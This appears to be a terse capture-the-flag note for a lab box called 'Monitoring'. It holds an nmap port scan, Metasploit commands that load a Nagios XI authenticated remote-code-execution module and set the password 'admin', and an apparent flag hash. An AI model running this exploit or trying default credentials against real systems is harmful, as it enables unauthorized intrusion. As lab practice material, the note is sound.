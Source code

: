 ----------------------------------------------------
# Author -> Shubham Rannpise
----------------------------------------------------
# Monitoring
# 16/2/2023

----------------------------------------------------
# nmap result
----------------------------------------------------
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
25/tcp  open  smtp     Postfix smtpd
80/tcp  open  http     Apache httpd 2.4.18 ((Ubuntu))
389/tcp open  ldap     OpenLDAP 2.2.X - 2.3.X
443/tcp open  ssl/http Apache httpd 2.4.18 ((Ubuntu))


MSFCONSOLE
use exploit/linux/http/nagios_xi_authenticated_rce
set password admin
 

 0c83fd7adea1858e9ada880f68076ae2
